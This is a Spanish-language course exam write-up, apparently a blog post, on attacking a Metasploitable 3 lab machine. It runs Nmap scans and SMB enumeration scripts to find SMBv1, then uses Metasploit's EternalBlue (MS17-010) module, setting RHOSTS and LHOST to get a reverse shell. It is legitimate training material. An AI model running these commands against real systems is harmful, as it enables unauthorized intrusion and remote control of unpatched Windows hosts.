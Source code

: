 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [Reconnaissance, Weaponization , Delivery / Exploitation, Installation ,Actions on Object, Conclusions]
tags: [NMAP, Kali Linux , Metasploit]  # TAG names should always be lowercase
---
```

# **2.1. Escaneo de Red y Enumeración de Servicios** 
Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
Tip: Investiga cuáles son los 02 puertos asociados con el servicio SMB. Luego, investiga como puedes usar nmap con el flag --script para una enumeración detallada. Al analizar el output del comando, buscar específicamente el término SMBv1 o el protocolo NT LM 0.12 en la lista de protocolos. Ello indicará la presencia del servicio SMBv1.
Escribe el comando que usaste en Nmap y explica brevemente cómo determina si SMBv1 está activo.

![IMG1]( /assets/image1.png)

Realizamos habilitar el rol file service.

![IMG2](/assets/image2.png)

Para descubrir los servicios activos en la máquina objetivo y verificar si SMBv1 está habilitado, se puede utilizar el siguiente comando Nmap:

![IMG3](/assets/image3.png)

![IMG4](/assets/image4.png)

El comando sudo nmap -sn 10.0.2.0/24 (privilegio administrador ) realiza un escaneo de red de tipo ping (TCP SYN) en la red 10.0.2.0/24, que abarca 256 direcciones IP (de 10.0.2.1 a 10.0.2.254).

![IMG5](/assets/image5.png)

Los dos puertos más comúnmente asociados con el servicio SMB (Server Message Block) son:
Puerto 139 (NetBIOS-ssn): Este puerto se utiliza para el tráfico SMB/CIFS (Common Internet File System) a través de NetBIOS. 
 Puerto 445 (Microsoft-ds): Este puerto se utiliza para el tráfico SMB/CIFS directamente sobre TCP/IP, sin utilizar NetBIOS.
En Metasploitable 3 nos  muestra la conexiones locales con los puertos.

![IMG6](/assets/image6.png)

![IMG7](/assets/image7.png)

smb-enum-shares:
•	Este script enumera los recursos compartidos SMB disponibles en la máquina objetivo.
•	El resultado mostrará una lista de los recursos compartidos, junto con información como el nombre del recurso, los permisos de acceso, y si el recurso está oculto o no.
smb-enum-users:
•	Este script enumera los usuarios del sistema operativo a los que se puede acceder a través de SMB.
•	El resultado mostrará una lista de usuarios, junto con su nombre de usuario, identificador de usuario (RID) y otros detalles.
smb-protocols:
•	Este script verifica qué versiones de SMB (incluyendo SMBv1) están habilitadas en el sistema.
•	El resultado mostrará una lista de los protocolos SMB soportados por el servidor, incluyendo si SMBv1 está presente.

![IMG8](/assets/image8.png)

El proceso para escanear la red y enumerar los servicios activos, específicamente los relacionados con SMB, en la máquina objetivo usando Nmap es el siguiente:
1.	Utilizar el comando nmap -sn 10.0.2.0/24 para realizar un escaneo de tipo ping en la red 10.0.2.0/24 y determinar qué hosts están activos.
2.	Una vez identificados los hosts activos, utilizar el comando nmap -p139,445 --script=smb-enum-shares,smb-enum-users,smb-protocols  10.0.2.4 para enumerar los servicios SMB.

2.2. Exploración de la Vulnerabilidad (2 puntos)
![IMG9](/assets/image9.png)
![IMG10](/assets/image10.png)

El funcionamiento :
msfconsole -q
Es la interfaz de línea de comandos principal del framework Metasploit, una herramienta de pruebas de penetración ampliamente utilizada en el mundo de la seguridad informática.
use exploit/windows/smb/ms17_010_eternalblue 
El Funcionamiento del módulo exploit/windows/smb/ms17_010_eternalblue:
1.	El módulo aprovecha la vulnerabilidad EternalBlue (MS17-010) en la implementación de SMBv1 en sistemas operativos Windows.
2.	Cuando se ejecuta este módulo, Metasploit envía una serie de solicitudes SMB especialmente diseñadas al sistema objetivo.
3.	Estas solicitudes SMB explotan la vulnerabilidad EternalBlue, lo que permite la ejecución de código arbitrario en el sistema objetivo.
4.	Una vez que se logra la ejecución de código, el módulo establece una conexión de tipo reverse shell, donde el sistema objetivo se conecta de vuelta a la máquina atacante, permitiendo así el acceso remoto al sistema.

![IMG11](/assets/image11.png)
Donde los comandos 


            set RHOSTS 10.0.2.4

            
            set LHOST 10.0.2.9
 
 Donde <10.0.2.4 > es la dirección IP de la máquina objetivo y <10.0.2.9> es la dirección IP de la máquina atacante.
Verificar que el módulo esté configurado correctamente:
show options
Ejecutar el módulo para explotar la vulnerabilidad:
Exploit

